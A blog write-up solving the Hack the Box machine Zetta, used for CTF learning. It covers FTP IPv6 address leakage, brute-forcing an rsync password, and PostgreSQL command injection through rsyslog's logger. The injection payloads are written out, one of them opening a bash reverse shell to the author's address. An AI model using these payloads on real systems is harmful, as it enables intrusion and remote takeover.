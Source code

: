 +++
author = "Nick"
categories = ["hack the box", "ftp", "ipv6", "RFC2428", "rsync", "ssh", "reverse shell", "psql", "postgress", "brute force", "RCE"]
date = 2020-02-22T11:00:00Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2019/10/zetta.png"
slug = "hack-the-box-zetta"
summary = "Welcome back! Today we are going to do the box Zetta. Lets dig i"
tags = ["hack the box", "ftp", "ipv6", "RFC2428", "rsync", "ssh", "reverse shell", "psql", "postgress", "brute force", "RCE"]
title = "Hack the Box - Zetta"

+++


Welcome back! Today we are going to do the box Zetta. Lets dig in!

As always, we start with an ```nmap``` scan: ```nmap -sC -sV -oA zetta_initial_scan 10.10.10.156```. We get a small set of results.

```
Nmap scan report for 10.10.10.156
Host is up (0.052s latency).
Not shown: 997 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Pure-FTPd
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10 (protocol 2.0)
| ssh-hostkey: 
|   2048 2d:82:60:c1:8c:8d:39:d2:fc:8b:99:5c:a2:47:f0:b0 (RSA)
|   256 1f:1b:0e:9a:91:b1:10:5f:75:20:9b:a0:8e:fd:e4:c1 (ECDSA)
|_  256 b5:0c:a1:2c:1c:71:dd:88:a4:28:e0:89:c9:a3:a0:ab (ED25519)
80/tcp open  http    nginx
|_http-title: Ze::a Share
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We repeat the scan but this time with all ports. The same results come back. So let's see what is being hosted on port 80.

![](/images/2019/10/image-66.png)

We have some type of sharing service. While looking through the source code we spot a string variable.

![](/images/2019/10/image-67.png)

This generates our username and password for the sharing site. We can use this to connect via ```FTP```. You seemingly can use any 32 length character and access the ```FTP``` site as long as the username and password match.

We connect to the ```FTP``` service and are pretty much unable to do anything.

![](/images/2019/10/image-68.png)

We do see that the server supports [RFC2428](https://tools.ietf.org/html/rfc2428). Which means that there could be some IPv6 trickery afoot. So the first thing we will do is to connect to the ```FTP``` service via ```netcat```. This way we can issue the ```EPRT``` commands. We will also setup a ```netcat``` listener on our machine and use the ```-6``` flag to enable IPv6 listening.

![](/images/2019/10/image-69.png)

After we've connected to the service, we will then attempt to download a dummy file called '1' from the server. If all goes well, we should see the above. A retrun connection leaking the machines IPv6 address.

![](/images/2019/10/image-70.png)

The breakdown of the ```EPRT``` command is:
```EPRT``` is using the protocol.
```|2|``` signifies use of IPv6.
```dead:beef:2::10ab``` is our IPv6 address.
```|5555|``` is the port we are telling ```EPRT``` to open a data connection to. Which also happens to be where our ```netcat``` is listening.

We do see the connection made and the machines IPv6 address leaked to us. With this info we can rescan the machine with ```nmap``` but specify IPv6 scan. We use ```nmap -p- -6 dead:beef::250:56ff:febd:923b```. We see one additional port open, port ```8730```.

![](/images/2019/10/image-71.png)



When we connect to the port we see that it is an Rsync server.

![](/images/2019/10/image-72.png)

Now that we know it's an accessable rsync server. We'll try and list the available shares. Use the ```--list-only``` flag for ```rsync```. After a few tries and failures, it seems we need to add this IPv6 address to our hosts list.

![](/images/2019/10/image-73.png)

After we add the IP to our Hosts file, we get back some listings. This looks like the root of a Linux file system. We try to 'sync' to each location shown and get an error. Since it resembled a file system, I tried to access tmp as well as etc. And we could read the content of the etc directory. So we'll sync the content of that file back and see what might be in it.

After sifting through the files. I came across an interesting section in the ```rsyncd.conf``` file.

![](/images/2019/10/image-74.png)

We see that this is also a hidden share. The share requires a username of Roy and a password. We'll have to write a quick script to automate this processes since the built in nmap rsync brute didn't work. There are multiple ways to approach this. I chose to make a small loop around ```rockyou.txt``` and pass it to ```sshpass``` to make the connection. It probably could have been a bit prettier doing it in ```python``` but this was functional. After letting that itterate through, we finally get a password.

Now we can add our ```SSH``` key to the ```authorized_keys file``` and sync it back to the server. We use: ```rsync -av ~/Documents/htb/zetta/rsync/roy_home rsync://roy@zetta6.htb:8730/home_roy```.

![](/images/2019/10/image-75.png)

Looks like our upload took. Lets see if we can SSH.

![](/images/2019/10/image-76.png)

We are, we can snag our user.txt if you haven't already gotten it from a previous rsync ;).

We can now start internal enumeration. We would normally get started with ```LinEnum``` and ```pspy64``` to see if there are any low hanging fruit. However, we don't have immediate access to ```curl```, ```wget``` and remote use of ```scp``` is requiring a password. So with no quick and easy mass enumeration, we do it manually. When we are looking through files, the ```.tudu.xml``` file holds some hints. We see that the postgress database running needs to be checked. We see format for the shared password scheme. We also see that a syslog database is suppose to push events to the postgress database. With these things in mind, we start to look at them one at a time.

We try to take a peek at the ```pgsql.conf``` file located in ```/etc/rsyslog.d```. Permission denied. We do however see that there is a ```.Git``` directory. With some luck we can clone the repo and see the config file.

![](/images/2019/10/image-77.png)

We go to read the file and immediately see a password string:

![](/images/2019/10/image-78.png)

We will try to connect to the database using those.

![](/images/2019/10/image-79.png)

No such luck. Doing some research about local7 logging lead me to [this RCE](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5#targetText=Authenticated%20Arbitrary%20Command%20Execution%20on%20PostgreSQL%209.3%20%3E%20Latest&targetText=PostgreSQL%2C%20commonly%20known%20as%20Postgres,Linux%20and%20Windows%20versions%20available.). It seems we can interact with the logger using the ```logger``` command. In conjunction with the above RCE we can use this to leverage the system for a shell. The steps we'll take are create a file made by the service, change the permissions of the file, inject a reverse shell and have it call back to us as the service account.

The file need to be in a writable place, so ```tmp``` it is. We create a file called ```shell```. In this file we will place the commands we the logger to execute. First we'll have the logger print the contents of the home directory to a file called ```hi```:

```logger -p local7.info "',now());CREATE table if not exists test(t TEXT);COPY test(t) from program $$whoami > /tmp/hi; $$;-- -"```

Then we can call the ```shell``` file by doing this:

```logger -p local7.info "$(cat shell.file)"```

![](/images/2019/10/image-99.png)

It worked. So now we can create a reverse shell the same way.

```logger -p local7.info "',now());CREATE table if not exists test(t TEXT);COPY test(t) from program $$bash -i >& /dev/tcp/10.10.15.236/4444 0>&1 > /tmp/hi; $$;-- -"```

We then need to have psql change the permissions on the file:

```logger -p local7.info "',now());CREATE table if not exists test(t TEXT);COPY test(t) from program $$chmod 777 /tmp/hi; $$;-- -"```

The first time I tried this I wasn't able to get a shell back due to permissions. Once we execute them all we get a shell back.

![](/images/2019/10/image-96.png)

Now that we have a shell ps postgres. We start to enumerate again. During my enumeration I checked for the location of the ```.psql_history``` file and parsed through it. It was a pretty short file:

![](/images/2019/10/image-97.png)

Now if we try this password it doesn't work. However if we recall back to our ```tudu.xml``` file we have that shared password scheme. So with some luck the format of ```secret``` @ ```userid``` is still in place and the password hasn't been changed. We can ```su``` to root using this knowledge. Sure enough it does!

![](/images/2019/10/image-98.png)

At first I thought my session was hanging but I forgot it was a remote shell and it wouldn't give me verification back when I switch users. There we have it, the root flag!

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

